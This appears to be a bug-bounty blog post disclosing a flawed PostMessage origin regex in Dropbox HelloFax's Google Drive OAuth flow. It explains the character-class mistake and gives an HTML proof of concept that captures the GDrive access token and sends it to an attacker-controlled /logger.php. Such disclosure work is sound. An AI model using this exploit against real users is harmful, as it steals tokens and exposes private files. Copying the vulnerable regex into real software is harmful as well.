```yaml
---
layout: post
title: Watch your regular expressions: Exploiting PostMessage bugs to leak GDrive tokens !
---
```


## TL;DR
In this blog post we will be discussing how minor validation issues in your regular expression patterns could lead to major security issues, the Dropbox's origin validation in the PostMessage function was misconfigured leading to GDrive tokens leak to third party origins !

## Introduction:
Dropbox's HelloFax offers documents management services to its users, particularly faxes:

![manage-documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/efba38f8-e7de-4ce6-a9a1-1832e34539c5)


Upon clicking on Send Fax to select your documents to be faxed, the following page will be shown:

![Fax-Documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/dce12a57-af39-4eb2-9f9a-b369ebcee2bd)


Documents could be uploaded either from our device or by integrating a third party service such as **Google Drive**, Upon clicking on the google drive icon, an OAuth window will pop up:

![google-drive-oauth](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/21804b65-d6d2-40cd-94f1-53a56618bdde)

- **NOTE:** whenever you see a window popup especially in OAuth integrations keep in mind that there is a possibility of using PostMessage functions, thus bringing other security issues to the table ! it isn't the case every time but keep it in mind when testing such applications !

After granting access in behalf of the user, Google will authorize the OAuth request and send the **authorization code** using the following GET request:

```
GET /home/googleNewFile?state=<state>&code=<authorization_code>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none HTTP/1.1
Host: app.hellofax.com
Cookie: <COOKIES>
```

The application hosted on `app.hellofax.com` will take the `authorization code` and exchanges it with access token, in our case it's a **Gdrive Access Token** in order to access user's **Google Drive** documents and files with the permissions predefined in the `scope` parameter, the whole process is explained in the following chart:

![authorization-code](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/9023ebaa-48ed-4c90-81f5-56e94195bda2)

After exchanging the **code** with a **GDrive access token**; The following response will be sent:

```
<script type="text/javascript" nonce="Bg2IcOtuFadT8UofntcBuA6M">
    let gdriveAccessToken = "<gdrive_access_token>";
    let gdriveReadonlyOAuthSucceed = "true";

    var resultObj = {
        gdriveAccessToken: gdriveAccessToken,
        gdriveReadonlyOAuthSucceed: gdriveReadonlyOAuthSucceed,
        type: "gdrive:readonlyOAuthSucceed", // needed to pass a message to the parent window
    };

    if (window.opener) {
        /**
         * Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)
         */
        let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];

        window.opener.postMessage(resultObj, targetOrigin);
    }
</script>
```

The **GDrive access token** is assigned to a varibale with the name `gdriveAccessToken` which is also included within an object with the name `resultObj`, the application checks if there is an opener window, the comment `//Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)` shows that the validation on the origin will assure that the **GDrive access token** will be sent only to permitted origins (hellosign trusted domains) and **NOT** to third party origins (untrusted), to apply the validation functionality; the application used to match the opener window's origin with the following regular expression pattern:

```
 let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];
```

It checks that the opener window's origin matches the following pattern:

```
/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/
```

Can you catch the error above ? Could you found it ? Great !

The developer tried to match the second-level domain with the domain names [hellosign-dev-qa-staging-] but he employed the wrong operator ! the character class `[]` will accept every character included there: `h, e, l, o, s, i, g, n, |, d, e, v, -, etc..` which offers to the attacker a flexibility in selecting the origin that will get the **Gdrive access token**, the pattern would accept `https://app.dev, https://app.hellosign, https://app.qa, https://app.staging` as trusted origins.

Therefore a PostMessage function will be invoked to send the `resultObj` that contains the **Gdrive token** to the opener window's origin validated by an insecure regular expression pattern, it could be  `app.dev` for example !

```
window.opener.postMessage(resultObj, targetOrigin);
```

## Time to Exploit: Bringing your brightest photos in Google Drive to the table !

To exploit this issue, the attacker must get a valid **authorization code** and a domain name with the origin https://app.dev for example that hosts the following exploit code:

```
<!DOCTYPE html>
<html>
<head>
    <title>PostMessage PoC</title>
</head>
<body>

    <script>

        window.open("https://app.hellofax.com/home/googleNewFile?state=<VALID_STATE>&code=<VALID_AUTHORIZATION_CODE>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none");

        window.addEventListener('message', (event) => {

            window.location.href = '/logger.php?gdrive_access_token=' + event.data.gdriveAccessToken; 

        })


    </script>

</body>
</html>
```

- **Impact:** Getting the **Gdrive access token** will give the attacker a scoped access to your Google Drive files including your holiday photos, your documents, and of course some information per the `email+userinfo.profile information` scope !

### Key Points:
- **For bug hunters/security professionals:** OAuth testing is one of my favorite parts in web security, whenever your find your screen filled with window popups that's a good indicator that you might face a PostMessage configuration, tokens/secrets/codes transmitted between windows need a secure way to travel, developers think that PostMessage is the right plane ! Stay tuned !
- **For developers:** I love regular expressions, a real art that everyone should respect, but I still support the classic method, an array with permitted origins and a strict string comparison will be enough to deliver the needed functionality.
- **For Internet users:** Google does a great job to secure your files/documents, but attackers have their weapons too ! that small click on your screen will be enough to pave attackers's way to your infos, make sure that you give your click to the right application !

Thanks for reading, if you have any question regarding this blog post please feel free to ping me on twitter `@mdakh404_`.
